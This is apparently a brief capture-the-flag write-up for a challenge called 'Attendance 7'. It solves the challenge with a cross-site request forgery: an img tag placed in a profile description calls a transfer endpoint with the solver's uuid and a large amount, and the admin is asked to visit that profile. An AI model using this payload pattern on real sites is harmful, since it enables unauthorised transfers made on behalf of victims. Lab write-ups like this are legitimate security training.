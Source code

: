 # Attendance 7 - 25 Oct [1 points] (31 solves)
Update the profile description with `<img src="http://chal.firebird.sh:35039/transfer_to?uuid=977a1037-01b0-4016-b2a0-1381b4d770ff&amount=1000000"/>`, uuid should replace with your own one.
Then copy the whole profile page url to "Contact Admin" page that ask admin to visit. The attendance flag will be on the `/attendance_flag`.